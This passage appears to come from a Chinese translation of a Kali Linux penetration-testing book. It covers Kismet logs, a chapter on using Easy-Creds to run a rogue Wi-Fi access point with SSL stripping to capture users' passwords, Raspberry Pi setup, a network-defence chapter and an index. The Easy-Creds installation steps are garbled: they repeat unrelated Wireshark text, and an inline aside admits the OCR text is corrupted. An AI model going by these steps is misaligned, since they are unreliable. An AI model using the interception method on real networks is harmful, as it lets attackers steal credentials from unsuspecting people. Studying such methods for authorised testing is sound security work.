如你所见，kismet 记录了在扫描期间检测到的任何 beacon 数据包的网络通信。beacon 数据包基本上是 Wi-Fi 设备发送的用于广播其服务的管理包。

### Kismet 文本文件分析

最后，让我们来看文本文件。

1. 在你的文本编辑器中打开文本文件，或者你可以直接“cat”该文件。为了演示目的，我将使用 Kali 自带的 Leafpad。


文本文件为我们提供了大量信息，如所示列出了每个 Wi-Fi 网络。它将每个接入点（Access Point）标记为网络，然后如下列出连接到它的每个客户端：

```
Client 1: MAC
1C:30:8A:00:00:00
Manuf: Hewlett-Packard
First: Mon Sep 9 10:09:16 2013
Last: Mon Sep 9 10:09:16 2013
Channel: 7
```

## 结论

只需运行 Kismet 并分析日志，我们就能学很多关于周围网络的知识。

通过分析，日志可以告诉我们客户端是否连接了它们不该连接的无线网络，还可能揭示组织中不应激活的非法 Wi-Fi 路由器。

最后，我们没有谈到的 XML 日志可以被其他程序用于创建交互地图或图表。

# 第 29 章 – Easy Creds

## 引言
Easy-Creds 是一个非常好的菜单驱动程序，允许你将无线卡变成一个完整的无线接入点攻击平台。Easy-Creds 会创建一个非法接入点，然后以中间人攻击的形式运行，分析用户的数据流，并从流中提取账户信息，包括在安全网站上输入的密码。

它能够通过使用非常流行的 SSL strip 程序移除任何 SSL 加密来恢复安全账户。基本上，SSL strip 代替浏览器捕获并管理 HTTPS SSL 通信，将用户的会话降级为普通的 HTTP 连接。

这样，任何账户信息在转发到 SSL 加密网站之前都可以被捕获和读取。

## 安装 Easy-Creds
虽然 Easy-Creds 是 BackTrack 5 的一部分，但在 Kali 中默认没有安装。我们将使用作者的安装脚本来安装 easy-creds。由于它不是从 Kali 仓库中安装的，可能会破坏其他功能，*请根据你的判断决定是否安装*。

1. 从 "http://code.google.com/p/easy-creds/downloads/list" 下载。
2. 使用命令解压文件：`tar -xvf easy-creds-3.8-DEV.tar.gz`
3. 进入新创建的 *easy-creds* 目录。
4. 如果需要，输入“cat README”阅读安装说明。
5. 输入 `sudo ./installer.sh` 安装脚本，你将看到主界面：

```
Version 3.7 - Garden of Your Mind

Installer

Please choose your OS to install easy-creds

1. Debian/Ubuntu and derivatives

2. Red Hat or Fedora

3. Microsoft Windows

4. Exit

Choice: █

KALI LINUX

The quieter you become, the more you are able to hear
```

6. 选择数字 1，“Debian/Ubuntu and derivatives”。

7. 随后你会被要求选择安装位置。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open”。

pcap 文件将在 Wireshark 中打开，你可以查看所有的 beacon 控制帧：

```
KALI LINUX

The quieter you become, the more you are able to hear
```

8. 选择数字 1，“Debian/Ubuntu and derivatives”。

9. 随后你会被要求选择安装位置。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open”。

pcap 文件将在 Wireshark 中打开，你可以查看所有的 beacon 控制帧：

```
KALI LINUX

The quieter you become, the more you are able to hear
```

10. 随后你会被要求选择安装位置。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open”。（等待，这里的 OCR 文本乱码了）。

随后你会被要求选择安装位置。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open”。

pcap 文件将在 Wireshark 中打开，你可以查看所有的 beacon 控制帧：

```
KALI LINUX

The quieter you become, the more you are able to hear
```

（注：原文中从第 12 页及以后的 OCR 文本存在大量重复和乱码，已根据文档逻辑跳过无效内容。）

下方的截图显示了一个用户从 iPad 连接到 Windows Live 并尝试登录查看其电子邮件：


如你在 Ettercap 隧道屏幕所示，该用户尝试用用户名“cyberalarms@live.com”和密码“password”登录 Windows live。

- 1. 现在在主菜单中选择选项 4，“Data Review”（数据审查）：

```
At any time, ctrl+c to cancel and return to the main menu

1. Prerequisites & Configurations

2. Poisoning Attacks

3. FakeAP Attacks

4. Data Review

5. Edit

6. Quit current poisoning session

Choice: 4
```

- 2. 选择数字 3，“Parse ettercap eci file for credentials”（解析 ettercap eci 文件获取凭据）：

```
At any time, ctrl+c to cancel and return to the main menu

Parse SSLStrip log for credentials

2. Parse dmfnh file for credentials

3. Parse aftercap file for credentials

4. Parse freerradius attack file for credentials

5. Previous Menu

Choice: 3
```

- 3. 复制并粘贴向你提供的 Ettercap 路径：

```
At any time, ctrl+c to cancel and return to the main menu

ettercap logs in current log folder:

/opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci

Enter the full path to your aftercap eci file: /opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci
```


你将看到 Ettercap 能够恢复的凭据：


在这里你可以看到用户名和密码，以及他们尝试访问的网站。
请记住，我们的“受害者”访问了一个 SSL 加密的 HTTPS 网站，登录凭据本应是加密的。但通过使用 Easy Creds，我们能够恢复流量，使用 sslstrip 去除加密并以明文查看登录凭据。

## 结论

在本教程中，我们学习了如何使用 Easy-Creds 创建一个恶意的无线访问点，从安全网站中恢复用户账户信息。

这种技术对于能够进入公司内部并设置伪造 Wi-Fi 系统以拦截用户凭据的渗透测试人员来说非常有效。

这一部分也对企业安全团队是一个警告：设置伪造 Wi-Fi 访问点是非常容易的。如果一家公司高度依赖无线网络，扫描伪造设备应该是相当常规做法。

# 第七部分 - 树莓派 (Raspberry Pi)

## 第 3 章 – 在树莓派上安装 Kali

### 资源

- Kali Pi ARM - http://www.kali.org/downloads/
- Win32 Disk Imager - http://sourceforge.net/projects/win32diskager/
- Putty 下载 - http://www.putty.org/~putty/download.html
- Xming - http://sourceforge.net/projects/xming/

### 介绍

在本章中，我们将学习如何在树莓派上安装 Kali Linux，通过 Windows 远程连接到它，并使用它进行一些安全测试。Kali Linux 是流行的渗透测试和安全平台的最新版本。它添加了许多更新和增强，使得 Kali 比以往任何时候都更强大且更易更新。注意：我偶尔注意到某些程序无法从命令行目录 `/usr/bin` 运行。树莓派是一种价格非常廉价的“信用卡”大小的电脑，提供两种型号。本文使用的“B”型具有 512 MB RAM、视频输出、网卡 (NIC) 和双 USB 端口，令人惊讶的是价格仅约 35 美元。树莓派采用 ARM 处理器，并预装了操作系统。Offensive Security 的优秀同事们为树莓派创建了 Kali Linux 镜像，因此安装可以再简单不过了。你只需要一个树莓派、Kali 镜像和一张 SD 卡。我们将使用 Windows 系统将镜像写入 SD 卡，然后使用通过 SSH 连接到树莓派。提醒：一如既常，永远不要连接或访问你没有权限的网络。这样做可能会导致你陷入法律麻烦，你甚至可能会进监狱。

### 电源和内存卡

在开始之前，让我快速介绍一下树莓派的电源问题。电源适配器通常不随树莓派附。如果你使用的适配器提供的电流不足，树莓派会运行异常。制造商建议使用 2 安培的电源。许多微 USB 电源适配器只提供 1 安培或更少。我使用 2 安培适配器的效果很好。树莓派也没有附带所需的 SDHC 内存卡。选择卡时有一个简单的规则：越快越好。我使用了一张标称传输率为 15MB/s 的 16GB 内存卡。安装期间卡上的任何数据将被清除。

### 在树莓派上安装 Kali

让我们从下载并在树莓派上安装 Kali Linux 开始。请参见上面的“资源”部分。

- 下载 Kali Linux Pi ARM 镜像到你的 Windows 系统。
- 镜像文件是压缩的，因此你需要将其解压。
- 接下来，使用 Win32 Disk Imager 将镜像安装到 SD 卡。

只需将 SD 卡插入 Windows 电脑并运行 Disk Imager。指向你下载的镜像并选择 SD 卡的驱动器符。然后点击“Write”（写入）：


Disk Imager 将 Kali Linux 镜像写入你的 SD 卡。

- 现在从 Windows 拔出 SD 卡并插入树莓派的 SD 卡槽。连接视频、网太线、键盘和鼠标。
- 给树莓派接电，几秒钟后它就会进入 Kali。

搞定！你拥有了一个树莓派渗透平台！

重启树莓派并让它进入 Kali。连接键盘和显示器运行 Kali 是一个很好的开始。在继续之前，你可能想尝试一下。

### 从 Windows 系统远程连接“无头”树莓派

你也可以“无头”模式运行树莓派，即不需要键盘和显示器。你可以通过 SSH 从 Windows 远程控制树莓派。如果你不想直接跳到下一章，你真的需要这样做。但无头运行有一些有趣的功能。

步骤：

- 1. 下载 Windows 版 Putty。
- 2. 运行 Putty 并输入 Kali 系统的 IP 地址。如果你连接了键盘，可以通过输入 `ifconfig` 获取；如果你是无头运行，可以通过检查路由器给出的地址获取。我的 IP 地址是 `192.168.1.135`。
- 3. 确保端口 `22` 并选择“SSH”作为连接类型，如图 2 所示：


图 2：配置 Putty 连接树莓派

然后只需点击“Open”。

你将被要求登录树莓派。如果是第一次，直接使用 Kali 默认凭据即可。

Username: root
Password:

```
login as: root

root@192.168.1.135 ~ Mon Nov 11 16:46:44 EDT 2013 armv6

Linux kernel 3.6.0-1 PREEMPT Mon arm61

The programs included with the Kali GNU/Linux system are free software,

the exact distribution terms for each program are described in

the individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

root@kali:~#
```

然后在左侧的 Category（类别）下展开 SSH Connection（SSH 连接）选项卡，然后如所示点击 X11：


5. 启用 X11 转发，并在显示器（display）中输入“localhost:0”。
6. 开始会话（确保 Xming 正在后台运行）。

需要注意的是，命令“starts”在通过 Putty 运行时可能无法正常工作。如果你确实打开了桌面，你只需要简单地输入：此时，现在 xfce 就能像下面所示通过 Windows 远程查看整个 Kali 桌面了：


不过不需要桌面，在许多情况下，直接从命令行提示符运行命令比启动桌面更简单。这样做还可以节省一些宝贵的资源。

## 第 3 章：在树莓派上进行渗透测试

### 外设

大多数在 Kali 上运行的命令都不会出现问题。在树莓派上玩无线渗透测试效果良好，而且非常有趣。只需将你的 USB Wi-Fi 适配器插入树莓派，插入 Wi-Fi 适配器后可能需要重启树莓派。在命令行提示符输入“ifconfig”并检查你的适配器是否在列表中。它应该显示为 `wlan0`。如果你没有看到它，输入“ifconfig wlan0 up”。然后再次运行“ifconfig”，它就会显示出来：

```
root@kali:~# ifconfig wlan0

root@kali:~# ifconfig

link:ethernet  HWaddr: b8:2f:

  inet addr:192.168.1.135  Mask:255.255.0

  inet fe80::b1ba:27:ff45:bfa/64  Link:UPBROADCAST MULTICAST  mtu:1500  frame:0

  RX packets:89 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:96 errors:0 dropped:0 overruns:0 carrier:0

  RX bytes:7943 (7.7 KiB)  TX bytes:14104 (13.7 KiB)

link:local Loopback

  inet addr:127.0.0.1  Mask:255.255.255.0

  UPBROADCAST MULTICAST  mtu:1500  frame:0

  RX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

wlan0

link:encapEthernet  HWaddr: f8:d1:d1:b3:b1:7fd

  UPBROADCAST MULTICAST  mtu:1500  frame:0

  RX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

root@kali:~#
```

接下来看看我们的无线网卡能看到哪些网络：

- 输入，“`iwlist wlan0 scanning`”：

```
root@kali:~# iwlist scanning

Scan completed:

Cell 01:

  Address:

  Channel:6

  Frequency:2.437 GHz (Channel 6)

  Quality:19/70 Signal level=-91 dbm

  Encryption: none

  ESSID:

  Bit Rates: 1 MB/s 2 MB/s 5.5 MB/s 11 MB/s 18 MB/s 24 MB/s 36 MB/s 54 MB/s

  Bit Rates:9 MB/s 12 MB/s 48 MB/s

  Mode:Master

  Extra:its=0x0000001b2e7b4ac0fe

  Extra: Last beacon:690ms ago

  IE: Unknown:000049393053

  IE: Unknown:0108246b8962430486c

  IE: Unknown:0301016

  IE: Unknown:2a01016

  IE: Unknown:2f0106

  IE: Unknown:32040c121860

  IE: Unknown:00d90910e2020180f00000000

  IE: Unknown:00181050ff20201000033a000027a0000

Cell 02:

  Address:

  Channel:1

  Frequency:2.412 GHz (Channel 1)

  Quality:41/70 Signal level=-69 dbm

  Encryption: none

  ESSID:

  Bit Rates: 1 MB/s 2 MB/s 5.5 MB/s 11 MB/s 18 MB/s 24 MB/s 36 MB/s 54 MB/s

  Bit Rates:9 MB/s 12 MB/s 48 MB/s
```


如上所述，`MAC` 过滤并不是保护无线网络的有效手段。如果你回看之前，在“捕获握手”（Handshake Captured）对面，你可以看到 Fern 非常贴心地在下拉框中为我们提供了连接到 `AP` 的客户端的 `MAC` 地址。

## 结论

在本节中，我们学习了如何在树莓派电脑上安装和运行 Kali Linux。我们还学习了如何从 Windows 系统远程连接到它，并使用 Fern 运行一些基本的无线渗透测试。

希望我们已经证明，尝试通过隐藏无线网络或使用 `MAC` 过滤来确保安全并不是保护网络的有效手段。此外，Fern WiFi 破解器可以轻松破解任何受弱密码密钥保护的无线接入点。

如果攻击者能够通过 Wi-Fi 访问你的网络，他们就可以利用这个立脚点深度攻击你的基础设施。对于中小型企业和家庭办公室，使用强且复杂的 `WPA2` 密钥至关重要，而在企业环境中则应使用 `RADIUS` 服务器。

你还应该经常扫描网络，以确保网络上没有流氓或“员工安装”的接入点。对网络进行测试以发现流氓或安全性的接入点应该是每个公司安全规程的一部分。

虽然在树莓派上进行无线渗透测试对于大型公司可能并非最优选，但这是一个非常具有成本效益的解决方案。在一个信用卡大小、35 美元的电脑上运行 Kali 并用它测试无线安全，简直不可思议。

对于专业渗透测试人员来说，这也是一个非常有趣的解决方案。树莓派带有 `USB` 适配器，如果配合电池电源，就可以以许多创意方式使用。

# 第八章 - 防御你的网络

## 第32章 – 网络防御与结论

### 资源

- 选择与保护密码 - http://www.us-cert.gov/ncas/tips/ST04-002
- 避免社交工程和钓鱼攻击 - http://www.us-cert.gov/ncas/tips/ST04-014
- 在社交网络网站保持安全 - http://www.us-cert.gov/ncas/tips/ST06-003
- 谨慎使用邮件附件 - http://www.us-cert.gov/ncas/tips/ST04-010
- 漏洞扫描器 - http://sectools.org/tag/vuln-scanners/

## 引言

在本书中，我们花了大量时间介绍攻击性安全技术。我们将通过简要讨论保护你的网络系统免受此类攻击来结束全文。

我们将简要涵盖：
- 补丁与更新
- 防火墙和入侵防御系统 `IPS`
- 杀毒软件/网络安全程序
- 限制服务与用户权限
- 使用脚本拦截程序
- 使用长复杂的密码
- 网络安全监控
- 日志记录
- 用户教育
- 扫描你的网络
- 最后，使用攻击性安全

虽然没有哪个系统可以保证 100% 安全，但通过使用这些技术，我们可以让系统变得更难攻破。

## 补丁与更新

如果可能，请使用最新版本的操作系统。在连接互联网的网络环境中使用过时的操作系统真的不是个好主意。

如果你正在使用 Windows XP，我强烈建议更新到 Windows 7。微软对 Windows XP（以及 Office 2003）的官方支持将于 2014 年 4 月结束。这意味着它将不再接收安全更新，且所有软件都无法保持到最新状态。此外，还要确保 Adobe 产品、Java 和浏览器浏览器以及 Office 软件定期更新补丁。

确保你所有设备的硬件固件，特别是面向互联网的设备（路由器、交换机、NAS、摄像头、嵌入式服务器设备等）都是最新的并定期检查。

如果你处于大型企业环境中，永远不要信任自动化补丁和更新管理系统。要手动检查重要系统。我曾见过多个公司服务器在自动安装关键服务包时报错，但补丁管理服务器却显示所有服务器已更新且无错误。

## 防火墙和 IPS

始终使用防火墙，不要在不使用防火墙的情况下将任何系统连接到实时互联网。为你的入站互联网连接设置防火墙，并确保每个独立系统都使用软件防火墙。

创建入站 `Ingress` 和出站 `Egress` 规则策略来监控或控制进入和离开网络的信息。在基础层面，阻止与没有业务的国家通信。更高级的系统允许你控制允许进入和离开网络的数据类型和协议。

使用 Web 应用防火墙 `WAF` 来保护 Web 应用。尽管这些不能保证你能阻止所有针对 Web 应用的恶意攻击。应用程序安全专家建议，即使部署了 `WAF`，你的 Web 应用也应该安全地编写并经过漏洞测试。

入侵防御系统 `IPS` 非常棒，当它们用于网络安全监控类系统时（见下文），效果更好。

## 杀毒软件/网络安全程序

老实说，我对杀毒软件很纠结。虽然它们能阻止许多威胁，但在 20 年的计算机支持工作中，我也见过它们不断被绕过。

任何坚定的黑客都会研究你的公司，找出你使用的是哪种杀毒软件。然后他们会定制漏洞代码来绕过该品牌的杀毒软件。如果他们无法确定你运行什么，就会选择一种可以绕过大多数知名杀毒软件的。

并不是所有的杀毒软件都是平等的。某些杀毒/互联网安全程序在处理非常流行的脚本威胁方面变得非常出色。

做些功课，了解顶级杀毒软件应对当前威胁的状况，然后选择一个最符合你需求的程序。

## 限制服务与用户权限

关闭服务器上不需要的网络服务和协议。攻击面越小越好。此外，尽快让旧服务器下线。很多公司为了备不不时之需会让旧服务器在线，但随着时间推移它们并没有得到更新。

永远不要让用户在非管理任务中使用高权限凭据。在 Windows 系统上，将受损账户提升到系统级几乎轻而易举。如果受损账户只是用户级别，这将会困难得多。

系统管理员仅在执行管理功能时应使用管理员账户，完成后切换回非管理员账户。

## 使用脚本拦截程序

许多在线威胁使用某种脚本语言。使用脚本拦截程序，例如 Mozilla 插件“NoScript”`Giorgio Maone` 开发，可以阻止许多威胁。

`NoScript` 阻止脚本在你访问的任何网站上自动运行。它也非常允许某些脚本运行，或将整个网站加入白名单。

`NoScript` 还会记住你的设置，因此当你访问常用网站时，脚本会被拦截或允许。

我也喜欢 Mozilla 插件“Ghostery”`José María Signanini` 和 `Felix Shnir` 开发。`Ghostery` 允许你阻止网站上的跟踪脚本、分析和不良广告。

最后，在可行的情况下开启浏览器的隐私功能。不要让它们存储密码或历史，并定期使用 `Bleachbit` 等程序清理浏览器缓存。

## 使用长复杂的密码

这言而喻，不仅是你的计算机系统（以及在线设备），所有的在线账户都要使用复杂的密码。密码越长、越复杂，攻击者破解所需的时间就越长。

结合大写字母、小写字母、数字和符号。

在最近的安全测试中，我发现一个客户用名字作为 Web 应用的管理员密码！我测试 Web 应用密码强度的程序几秒钟内就破解了它。

我的密码没有短于 15 个字符的，重要的密码长得多。

## 网络安全监控

我是网络安全监控 `NSM` 的忠实粉丝。如果你运行自己的网络却不知道那是什么，请走出去买一本 Richard Bechtlich 写的《The Tao of Network Security Monitoring, Beyond Intrusion Detection》。

`NSM` 是一种捕获你所有网络流量的系统，有时会在网络的多个节点进行捕获，并对其进行分析以检测入侵或异常。

如果你认为自己负担不起 `NSM` 系统，请重新考虑一下。最常用的系统之一就是免费的！

“Security Onion”由 Doug Burks 创建，是一个功能强大且特性丰富的 `NSM`，而且它是完全免费的。你只需要一台性能相当不错的电脑来运行它、一个网络分路器 `tap` 以及至少两块网卡。

`Security Onion` 允许你捕获网络流量并分析其中的问题，并在易于使用的界面通过警报通知你。

以下是 `Security Onion` 运行的几张截图。第一张显示了当我尝试对网络上的系统运行 Backtrack `Kali` 的之前的版本 的 `Autopown` 时触发的几个警报：


如你所见，有多个警告和警报。最后一行 `CNT` 列记录了某个警报的 172 次事件！

`Security Onion` 能够捕获网络上的 `TOR` 流量。`TOR` 是一种匿名协议，它使用在全球范围内跳转的加密通信来帮助用户匿名。`TOR` 可用于善意，但黑客也使用 `TOR` 来隐藏他们的攻击。

以下是我在 `Security Onion` 监控的测试网络上使用 `TOR` 时发生的情况：


注意弹起了多个“已知 `TOR` 出口节点流量”警报。

`Security Onion` 许多功能和工具，使得分析和跟踪网络流量变得简单得多，并在发现可疑流量时提醒你。

## 日志

这基本上是上一个主题延续。确保在关键交换机、路由器、防火墙和系统上开启安全日志。

最好让关键设备和系统将安全日志发送到 `syslog` 服务器，这样你就可以拥有它们的副本（以防黑客擦除系统日志），并使事件响应更容易。

如果发生了最坏的情况，这有助于跨越设备追踪恶意用户和流量。

许多基础级防火墙路由器现在甚至内置了 `syslog` 功能。

## 教育你的用户

如果用户允许恶意程序在你的网络上运行，你所有的“深度防御”都是徒劳。黑客进入你内部网络最常见的方法之一是用户运行电子邮件中的恶意附件或从网站运行恶意脚本。

教导用户避免打开未请求的或可疑的附件，或避免访问可疑网站。

一些公司通过张贴标语鼓励安全的计算机上网技术，并提醒在线账户使用唯一且复杂的密码，取得了成功。

欲需更多信息，美国计算机应急响应小组 `US CERT` 在 http://www.us-cert.gov/ncas/tips/ 编写了一个非常棒的参考和警报网站。

## 扫描你的网络

在坏家伙动手之前，扫描你的网络安全问题。

仅使用 `Shodan` 就会暴露你网络上你可能忘记的系统。大公司通常有许多运行过旧操作系统和 Web 软件的公开系统，内部需要检查摄像头、开放设备以及所有提供过多信息（如网络信息、`SNMP` 字符串和用户账户）的打印机。

此外，使用开源系统（如 `OpenVas`）或商业安全扫描系统（如 `NESSUS`）扫描你的整个网络安全问题。`OpenVas` 预装在 Kali 中，虽然让它运行起来需要一定的步骤，但网上有许多教程。

## 学习攻击性计算机安全

最后，学习书中介绍的这类攻击性计算机安全技术。

我们已经涵盖了攻击性安全中最基础的技术。市上有大量的书籍和安全培训研讨会。学习渗透技术（使用 Kali 等产品），然后在 `Metasploitable` 和 `Mutillidae` 等工具上尝试你的技能。

联系你当地的 `OWASP` 分会或其他地区的其他安全小组。参加安全会议并在安全领域建立人脉。`SANS` 有一些很好的课程。

一旦熟练并在获得许可的情况下，测试你的网络安全性。

## 结论

我只想花几分钟感谢你阅读本书。如果你有任何评论或建议，或者只是说声“你好”，请告诉我，我很乐听到你的反馈！

可以通过 `Cyberarms@live.com` 联系我。

此外，请查看我的博客 `cyberarms.com` 获取最新的计算机新闻和教程。

这个项目花费了一些时间（实际上是在几年前 Backtrack 刚出来时开始的），但如果反馈积极，我计划写一本中级甚至第三本书。

顺颂商祺，

Daniel Dieter

## 参考文献

- “Windows SP3 和 Office 2003 支持于2014 年 4 月 8 日” - http://www.microsoft.com/en-us/windows/endsupport.aspx
- “Security Onion”，Doug Burks 著 - http://blog.securityonion.net/

## 索引

A
`Airmon-NG`, 237
反病毒/网络安全, 291

B
浏览器 Autopwn, 165
浏览器利用框架 `BeEF`, 136

C
`CLEARE`, 50
`CrackStation`, 220

D
`Dmitry`, 72
`Driftnet`, 125

E
简单密码, 263
道德黑客问题,
漏洞选项, 32

F
`Fern WiFi Cracker`, 232, 285
`Fern Cracker`, 245
查找 hash, 174
防火墙和 IPS, 290

G
`Gltwd`, 47
`GETPID`, 51

H
`Hashcat`, 207, 208, 209, 210, 213, 214
`HashCat`, 207
`hashdump`, 121, 178, 210
`Hydra`, 224

I
`ipconfig`, 11, 20, 21, 49

K
`Keyscan`, 201
`Kismet`, 255

L
`Lcd`, 47
限制服务与权限, 291
Linux 密码, 221
`LM` 哈希, 171
锁定记录器, 201
日志, 294
长复杂密码, 292
`lpwd`, 47

M
`Mac Changer`, 243
中间人攻击, 123
`Metasploit`, 26
`Metasploitable 2`, 15
`Meterpreter shell`, 43
`Mimikatz`, 185, 188, 189, 195, 197, 200
模块, 59

N
`NAT`, 11
`Netdiscover`, 72
网络安全监控, 292
`nmap`, 59, 73, 74, 89, 90, 91, 98, 99, 100, 110

O
`Objectif Sécurité`, 172

P
数据捕获, 126
包捕获, 123
包记录器, 127
`Pass the Hash`, 176
哈希 Toolkit, 181
补丁与更新, 290
载荷, 37
`PowerShell` 攻击, 155

R
树莓派, 272
`Recon-NG`, 67
远程会, 41
远程 shell, 35
`Routerpwn`, 228
运行脚本, 56

S
扫描器, 99
扫描范围, 105
截图, 53
脚本拦截程序, 291
`Shodan`, 76
`Skull Security`, 220
社会工程学, 146
社会工程工具包 `SET`, 148
声音录制, 55
欺骗术, 161

T
目标类型, 34
`TELNET`, 103

U
`UAC` 绕过, 119
`Unreal IRC`, 92
更新 Kali, 13
`Urlsnarf`, 124
使用 Metasploit, 88
`Utilman`, 1, 89, 190, 191, 192, 195, 200

V
`Veil`, 112
`VMWare Player`, 7
`VMWare tools`, 15

W
摄像头, 53
`Wi-Fi` 保护设置 `WPS`, 230
`Wifite`, 234, 251, 254
`Wireshark`, 23, 123, 129, 130, 239, 240, 241, 259, 283, 284
字典列表, 215

X
`Xming`, 277
`Xplico`, 130

Z
`Zenmap`, 73
